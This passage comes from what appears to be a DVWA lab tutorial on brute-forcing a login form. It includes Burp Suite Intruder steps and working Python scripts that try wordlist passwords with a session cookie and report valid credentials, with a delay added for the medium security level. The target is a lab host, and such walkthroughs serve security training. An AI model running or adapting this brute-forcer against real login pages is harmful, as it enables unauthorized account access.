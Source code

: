    ```python
               "password": password,
               "Login": "Login"
           }
           
           r = requests.get(target_url, params=params, cookies=cookies)
           
           if "Username and/or password incorrect" not in r.text:
               print(f"[+] Found valid credentials: {username}:{password}")
               sys.exit(0)
   ```

### Medium Security Level

1. **Understanding the Protection**
   - Medium level implements basic anti-brute force measures
   - Simple 2-second sleep added to slow down attempts
   - Still vulnerable but requires adjusting our approach

2. **Using Burp Suite**
   - Configure your browser to use Burp Proxy
   - Navigate to the brute force page and attempt a login
   - Capture the request in Burp
   - Send to Intruder
   - Configure payload positions for the password field
   - Load a wordlist (keep it small due to the time delay)
   - Start the attack with increased timeout settings

3. **Modified Python Script**
   ```python
   #!/usr/bin/env python3
   import requests
   import sys
   import time
   
   target_url = "http://dvwa.local/vulnerabilities/brute/"
   username = "admin"
   wordlist = "/usr/share/wordlists/small_wordlist.txt"  # Use a smaller wordlist
   
   cookies = {
       "PHPSESSID": "your_session_cookie",
       "security": "medium"
   }
   
   with open(wordlist, 'r', encoding='latin-1') as f:
       for line in f:
           password = line.strip()
           print(f"Trying: {password}")
           
           params = {
               "username": username,
               "password": password,
               "Login": "Login"
           }
           
           r = requests.get(target_url, params=params, cookies=cookies)
           
           if "Username and/or password incorrect" not in r.text:
               print(f"[+] Found valid credentials: {username}:{password}")
               sys.exit(0)
           
           time.sleep(2.5)  # Add delay to account for server-side sleep
   ```
